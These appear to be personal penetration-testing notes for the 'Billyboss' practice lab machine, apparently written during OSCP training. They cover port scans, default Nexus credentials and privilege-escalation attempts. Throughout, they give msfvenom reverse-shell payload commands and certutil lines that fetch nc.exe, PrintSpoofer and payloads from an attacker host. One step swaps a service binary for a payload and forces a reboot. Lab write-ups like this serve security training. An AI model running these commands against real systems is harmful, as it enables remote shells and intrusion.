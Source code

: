 ### Rust scan
```
docker run -it --rm --name rustscan rustscan/rustscan:1.10.0 $IP
```

PORT      STATE SERVICE         REASON
21/tcp    open  ftp             syn-ack
80/tcp    open  http            syn-ack
135/tcp   open  msrpc           syn-ack
139/tcp   open  netbios-ssn     syn-ack
445/tcp   open  microsoft-ds    syn-ack
5040/tcp  open  unknown         syn-ack
8081/tcp  open  blackice-icecap syn-ack
49664/tcp open  unknown         syn-ack
49665/tcp open  unknown         syn-ack
49666/tcp open  unknown         syn-ack
49667/tcp open  unknown         syn-ack
49668/tcp open  unknown         syn-ack

http://192.168.243.61:8081/

default creds is nexus/nexus. Try the name of website first before bruteforce

### Find windows version
`sudo nmap -sV -sS -A $IP -p21,80,8081 -v`

### Nope so just try windows/shell_reverse_tcp
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.243 LPORT=445 -f exe -o shell.exe`

```
����������͹ Searching executable files in non-default folders with write (equivalent) permissions (can be slow)
     File Permissions "C:\BaGet\BaGet.exe": Authenticated Users [WriteData/CreateFiles]


msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.243 LPORT=135 -f exe -o BaGet.exe
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.243 LPORT=135 -f dll -o BaGet.dll

certutil -urlcache -f http://192.168.49.243/BaGet.dll C:\BaGet\BaGet.dll

shutdown -r -t 1 && exit
```

### winPEASany
```
certutil -urlcache -f http://192.168.49.243/winPEASany.exe C:\Users\nathan\winPEASany.exe

not working properly

certutil -urlcache -f http://192.168.49.243/PrintSpoofer64.exe C:\Users\nathan\PrintSpoofer64.exe
certutil -urlcache -f http://192.168.49.243/nc.exe C:\Users\nathan\nc.exe
```

### BaGet.exe is the rabbit hole. LOL...
let's enum something else

### windows-exploit-suggester very old
```
cd /opt

sudo python2 windows-exploit-suggester.py --update

[*] initiating winsploit version 3.3...
[+] writing to file 2022-09-06-mssb.xls
[*] done
```

```
sudo python2 windows-exploit-suggester.py --database 2022-09-06-mssb.xls --systeminfo systeminfo.txt
```
6 years now, no longer working

### wesng is the next generation
```
sudo ./wes.py /home/alvin/Documents/OSCP-PWK/PgPractice/Windows/Billyboss/systeminfo.txt
```

Listing the installed KBs, we learn that the most recently installed patch is KB4540673. This KB was released in March 2020, which means our target is potentially vulnerable to SMBGhost.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.243 LPORT=8081 -f dll -f csharp
```